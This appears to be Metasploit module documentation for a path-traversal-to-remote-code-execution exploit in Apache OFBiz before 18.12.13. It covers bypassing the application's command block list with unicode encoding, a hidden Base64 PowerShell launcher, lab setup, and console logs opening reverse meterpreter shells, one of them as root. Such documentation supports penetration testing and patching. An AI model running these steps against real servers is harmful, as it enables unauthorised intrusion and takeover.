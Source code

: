 ## Vulnerable Application
Apache OFBiz versions prior to 18.12.13 are vulnerable to a path traversal vulnerability. The vulnerable
endpoint `/webtools/control/forgotPassword` allows an attacker to access the `ProgramExport` endpoint which in
turn allows for remote code execution in the context of the user running the application.

### Description
The module can exploit Apache OFBiz running on both Windows and Linux. OFBiz has list of `deniedWebShellTokens`
which includes strings like `curl` and `chmod` which attempts to prevent ProgramExport from being exploited. The list
can be bypassed if you encode your payload in unicode characters, which is what is done for payloads being sent to
Apache OFBiz running on Linux. Trying to do the same on Windows results in the application throwing errors complaining
about multiple characters.
```
      <p>The Following Errors Occurred:</p>
        <p>org.codehaus.groovy.control.MultipleCompilationErrorsException: startup failed:
Script1.groovy: 1: unexpected char: &#39;:&#39; @ line 1, column 49.
```

Which is why the following: `'BadChars' => "\x3a"` has been added. Adding BadChars changes the payload
to be Base64 encoded and gets powershell to decode and run it: `powershell -w hidden -nop -e <Base64 encoded payload>`

### Setup

#### Docker

1. Run the following docker command to spin up a vulnerable target:
`docker run -p 8080:8080 -p 8443:8443 --rm -e INIT_DB=2 vulhub/ofbiz:18.12.09`

#### Windows 10 (Build 19045)

1. Download the Java 8 JDK from https://download.java.net/openjdk/jdk8u41/ri/openjdk-8u41-b04-windows-i586-14_jan_2020.zip
1. Unzip the JDK to a target directory.
1. Edit `JAVA_HOME` environment variable and set it to the location where you extracted the Java 8 JDK.
1. Update the `PATH` environment variable to include a path to the same location as `JAVA_HOME`, but with `\bin` at the end of it.
1. Download a vulnerable version of Apache OFBiz from https://archive.apache.org/dist/ofbiz/apache-ofbiz-18.12.12.zip
1. Create the directory: `C:\ofbiz`.
1. Unzip the contents of `apache-ofbiz-18.12.12.zip` into `C:\ofbiz`.
1. Run `cd C:\ofbiz`.
1. Run `init-gradle-wrapper` to initialize the Gradle wrapper.
1. Run `.\gradlew cleanAll loadAll` to clean the system and load the complete OFBiz data.
1. Once the above completes run `.\gradlew ofbiz` to start the application
1. Navigate to `https://localhost:8443/webtools`


## Verification Steps

1. Start msfconsole
1. Do: `use apache_ofbiz_forgot_password_directory_traversal`
1. Set the `RHOST` and `LHOST` options
1. Run the module
1. Receive a session in the context of the user running Apache OFBiz.

## Scenarios

### Apache OFBiz 18.12.12 running on Windows 10 (Build 19045)
```
msf6 > use multi/http/apache_ofbiz_forgot_password_directory_traversal
[*] Using configured payload cmd/windows/http/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/apache_ofbiz_forgot_password_directory_traversal) > show targets

Exploit targets:
=================

    Id  Name
    --  ----
=>  0   Linux Command
    1   Windows Command
    
msf6 exploit(multi/http/apache_ofbiz_forgot_password_directory_traversal) > set target 1
target => 1
msf6 exploit(multi/http/apache_ofbiz_forgot_password_directory_traversal) > set payload cmd/windows/http/x64/meterpreter/reverse_tcp
payload => cmd/windows/http/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/apache_ofbiz_forgot_password_directory_traversal) > run rhosts=172.16.199.132 lhost=172.16.199.1

[*] Started reverse TCP handler on 172.16.199.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Tested remote code execution successfully
[*] Attempting to exploit...
[*] Sending stage (201798 bytes) to 172.16.199.132
[*] Meterpreter session 1 opened (172.16.199.1:4444 -> 172.16.199.132:50788) at 2024-06-14 16:46:34 -0700

meterpreter > getuid
Server username: DESKTOP-N3ORU31\msfuser
meterpreter > sysinfo
Computer        : DESKTOP-N3ORU31
OS              : Windows 10 (10.0 Build 19045).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > exit
```

### Apache OFBiz 18.12.12 running in Docker on MacOS 14.5
```
msf6 exploit(multi/http/apache_ofbiz_forgot_password_directory_traversal) > run target=0 payload=cmd/linux/http/x64/meterpreter/reverse_tcp rhosts=172.16.199.1 lhost=172.16.199.1

[*] Started reverse TCP handler on 172.16.199.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Tested command injection successfully
[*] Attempting to exploit...
[*] Sending stage (3045380 bytes) to 172.16.199.1
[*] Meterpreter session 2 opened (172.16.199.1:4444 -> 172.16.199.1:54454) at 2024-06-07 13:02:01 -0400

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 172.17.0.2
OS           : Debian 11.4 (Linux 6.6.26-linuxkit)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
